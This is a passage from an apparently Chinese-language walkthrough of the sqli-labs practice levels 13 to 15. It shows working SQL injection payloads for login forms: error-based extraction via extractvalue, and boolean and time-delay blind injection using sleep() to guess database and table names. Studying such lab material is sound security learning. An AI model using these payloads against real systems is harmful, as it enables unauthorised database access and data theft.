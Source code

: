 1.首先尝试单引号注入，根据报错信息得知闭合方式是')

2.`uname=admin') and extractvalue(1,concat(0x7e,(select database())))  and ('`

其余的过程与上一关基本相同

***
# less 14(POST单引号变形双注入)
***
## 原理

依旧是根据报错爆名

## 步骤

1.还是单引号找注入点，发现没有回显，猜测单引号被双引号所包裹，所以尝试双引号显示了错误信息。

2.`uname=admin" and extractvalue(1,concat(0x7e,(select database()))) and "  &passwd=admin&submit=Submit`

可以发现凡是用到报错函数的句式都长得非常相似，其整体思路也是相同的

具体爆库名表命列名payload学习见上，唯一需要注意的就是闭合方式

***


# less 15(基于bool型/时间延迟单引号POST型盲注)
***
## 原理

无论怎么输入都没有回显的布尔型，通过时间延迟判断是否执行语句，并且如果是手工注入的话所有的库名表名列名都要一个一个猜。前后顺序为:数据库名长度->数据库名猜测->按条依次猜测表名->对表名中的值进行猜测

## 步骤

1.仍旧是注入点测试

`uname=admin' and 1=1 --+ 登录成功`

`uname=admin' and 1=2 --+ 登录失败`

以此判断此处存在可以语句执行的漏洞

2.开始对各项值进行猜测

`uname=admin' and if(length(database())=8,sleep(5),1)--+&passwd=admin&submit=Submit`

 

`uname=admin' and if(left(database(),1)='s',sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if( left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)--+&passwd=admin&submit=Submit`
 